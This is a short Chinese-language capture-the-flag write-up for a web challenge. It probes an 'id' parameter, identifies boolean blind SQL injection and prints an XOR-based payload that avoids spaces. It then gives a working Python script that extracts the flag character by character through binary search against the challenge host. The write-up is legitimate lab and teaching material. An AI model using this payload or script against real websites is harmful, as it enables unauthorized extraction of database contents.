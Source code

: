 ![](<./img/Pasted image 20221108085601.png>)

![](<./img/Pasted image 20221108085629.png>)

```php
id=1
```
> Hello, glzjin wants a girlfriend.


```php
id=2
```
> Do you want to be my girlfriend?


```php
id=3
```
> Error Occured When Fetch Result.

```php
id=0
```
> Error Occured When Fetch Result.


```php
id=1; show databases#
```
> SQL Injection Checked.

```php
id=abc
```
> bool(false)

搜索得知这题是传说中的布尔盲注

通过上面的尝试可知，对`id`的运算结果为`1`或`2`时返回对应的字符串，为其他数字时返回错误，为非数字时返回false，因此可利用这一点逐个判断出flag的每一个字符
```sql
id=0^(ascii(substr((select(flag)from(flag)),/*index*/,1))>/*特定值*/)
```
若后面的比较为真，则`0^1`为`1`，返回`Hello, glzjin wants a girlfriend.`

否则`0^0`为`0`，报错

通过`python`脚本来二分（顺便学下`requests`怎么用QwQ）
```python
import requests

url = 'http://b405dc5e-a9fb-4e52-9d5d-f10a343e2bbd.node4.buuoj.cn:81/index.php'

for i in range(1, 100):
    a = 0
    b = 127
    while a < b:
        mid = (a + b) // 2
        r = requests.post(
            url,
            data={'id':'0^(ascii(substr((select(flag)from(flag)),{},1))>={})'.format(i, mid)})
        if r.content[-2:] == b't.':
            b = mid
        else:
            a = mid + 1

    print(chr(a-1),sep='',end='',flush=True)

```
![](<./img/Pasted image 20221108173940.png>)

#Web #SQL注入 #布尔盲注